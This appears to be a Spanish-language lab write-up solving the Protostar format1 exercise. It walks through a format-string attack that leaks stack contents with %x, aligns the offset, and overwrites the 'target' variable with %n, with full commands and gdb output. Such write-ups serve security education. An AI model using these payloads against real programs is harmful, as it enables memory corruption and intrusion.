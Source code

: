 
---------------------------------------------------------------------------
## Sobreescribir una variable -> [format1](https://exploit.education/protostar/format-one/)

Este binario toma un argumento (al que llama "string"), lo mete en la funcion **printf()** y te imprime dicho argumento

  	```
  	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA
  	AAA[user@protostar]-[/opt/protostar/bin]:$ 
  	```
Como no hace un salto de linea, lo ponemos nosotros concatenando "; echo"
  
	```
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA; echo
	AAA
    	[user@protostar]-[/opt/protostar/bin]:$ 
  	```
¿Si en vez de pasarle una "A" le pasamos una cadena de formateo como %x (numero hexadecimal)?
  
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 %x; echo
	804960c
   	[user@protostar]-[/opt/protostar/bin]:$ ./format1 "%x %x"; echo
   	804960c bffff6e8
  	```
 Este "bffff6e8" parece una direccion de la pila...
 
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ python -c "print('%x'*4)"  > /tmp/pattern
    	[user@protostar]-[/opt/protostar/bin]:$ gdb ./format1
    	(gdb) disas vuln
    	Dump of assembler code for function vuln:
    	0x080483f4 <vuln+0>:	push   %ebp
   	0x080483f5 <vuln+1>:	mov    %esp,%ebp
  	0x080483f7 <vuln+3>:	sub    $0x18,%esp
    	0x080483fa <vuln+6>:	mov    0x8(%ebp),%eax
    	0x080483fd <vuln+9>:	mov    %eax,(%esp)
    	0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
    	0x08048405 <vuln+17>:	mov    0x8049638,%eax
    	0x0804840a <vuln+22>:	test   %eax,%eax
    	0x0804840c <vuln+24>:	je     0x804841a <vuln+38>
    	0x0804840e <vuln+26>:	movl   $0x8048500,(%esp)
    	0x08048415 <vuln+33>:	call   0x8048330 <puts@plt>
    	0x0804841a <vuln+38>:	leave  
    	0x0804841b <vuln+39>:	ret    
    	End of assembler dump.
    	(gdb) b *0x08048400
   	(gdb) run < /tmp/pattern
  	Starting program: /opt/protostar/bin/format1 < /tmp/pattern
    	Breakpoint 4, 0x08048400 in vuln (string=0x0) at format1/format1.c:10
    	10	format1/format1.c: No such file or directory.
      	in format1/format1.c
    	(gdb) x/40wx $esp
    	0xbffff670:	0x00000000	0x0804960c	0xbffff6a8	0x08048469
    	0xbffff680:	0xb7fd8304	0xb7fd7ff4	0xbffff6a8	0x08048435
    	0xbffff690:	0x00000000	0xb7ff1040	0x0804845b	0xb7fd7ff4
    	0xbffff6a0:	0x08048450	0x00000000	0xbffff728	0xb7eadc76
    	0xbffff6b0:	0x00000001	0xbffff754	0xbffff75c	0xb7fe1848
    	0xbffff6c0:	0xbffff710	0xffffffff	0xb7ffeff4	0x0804824d
    	0xbffff6d0:	0x00000001	0xbffff710	0xb7ff0626	0xb7fffab0
    	0xbffff6e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
    	0xbffff6f0:	0xbffff728	0x8160bf58	0xab35a948	0x00000000
    	0xbffff700:	0x00000000	0x00000000	0x00000001	0x08048340
  	```
    
Como podemos ver la segunda entrada de la pila es nuestro "0x0804960c" que se imprimió antes, es decir, prinf(%x) imprime contenido de la pila.

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*150 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
     	8048469
    	b7fd8304
    	b7fd7ff4
    	...
    	2e000000
    	726f662f
    	3174616d
    	41414100
    	42424241
    	78382542
    	7838252e
    	7838252e
    	7838252e
    	7838252e
    	7838252e
    	7838252e
    	7838252e
    	7838252e
    	7838252e
    	7838252e
    	7838252e
  	```
   Nos está imrpimiendo muchos valores de la pila, en cierto momento, se ven "41" y "42", que equivalen a nuestras "A" y "B", seguidos de "7838252e"
   que son nuestras "%8x.". El objetivo, esque sean las A los útlimos valores que salgan, para eso hay que reducir las x u offset.
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	726f662f
    	3174616d
    	41414100
    	42424241
    	```
   El problema esque se han mezclado los 42 y los 41 (A)s y (B)s, y tiene que quedar perfecto, asi que se reduce el numero de "B"

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
   	bffff488
    	...
    	41414141
    	78382542
    	7838252e
    	7838252e
    	7838252e
    	```
   Se quitan mas "x"

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*168 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	2f2e0000
    	6d726f66
    	317461
    	41414141
    	```
  Perfecto, ya están alineados nuestras, "A". Pero ahora lo que interesa es cambiar esas "A" por otra cosa, la direccion de la varaible 
  que queremos modificar:
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ objdump -t ./format1 | grep "target"
	08049638 g     O .bss	00000004              target
    	```
  La direccion de la variable "target" es *0x08049638* que si lo pasamos a endian (dar la vuelta a los bytes) sale -> *\x38\x96\x04\x08*
  Ahora sustituimos las "AAAA" por esa dirección (ambas cosas ocupan 4 bytes).
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	317461
    	8049638
    	```
  Perfecto, la dirección de memoria se ha alineado perfectamente. Ahora hay que sobrrescribirla cambiando la "%x" por "%n"
  
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%n')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	317461
    	you have modified the target :)
    	```
  Y ya está, primer format completado.

  
    
   
